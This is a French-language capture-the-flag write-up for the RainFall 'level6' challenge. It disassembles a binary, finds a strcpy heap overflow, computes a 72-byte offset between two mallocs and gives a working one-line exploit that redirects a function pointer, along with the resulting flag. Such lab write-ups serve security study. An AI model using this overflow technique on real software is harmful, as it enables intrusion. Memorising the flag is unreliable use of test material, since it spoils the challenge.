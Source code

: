 On remarque, qu'il y a un appel de fonction de eax. L'on essaie donc de modifier la valeur de eax se situant à 0x18(%esp) soit le deuxième malloc.

```asm
 80484ca:	8b 44 24 18          	mov    0x18(%esp),%eax
 80484d0:	ff d0                	call   *%eax
```

Nous remarquons également l'utilisation d'un strcpy, vulnérable aux buffer overflow, qui copie à 0x1c(%esp) soit le premier malloc. L'on à donc besoin d'avoir l'offset séparant le premier malloc du deuxième malloc.

```bash
level6@RainFall:~$ ltrace ./level6 
__libc_start_main(0x804847c, 1, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                              = 0x0804a008
malloc(4)                                                               = 0x0804a050
strcpy(0x0804a008, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

```python
level6@RainFall:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:43:34) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x0804a050 - 0x0804a008
72
```

Ensuite, il nous suffit de mettre la valeur de eax (0x18(%esp)) l'adresse de la fonction `n`;

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
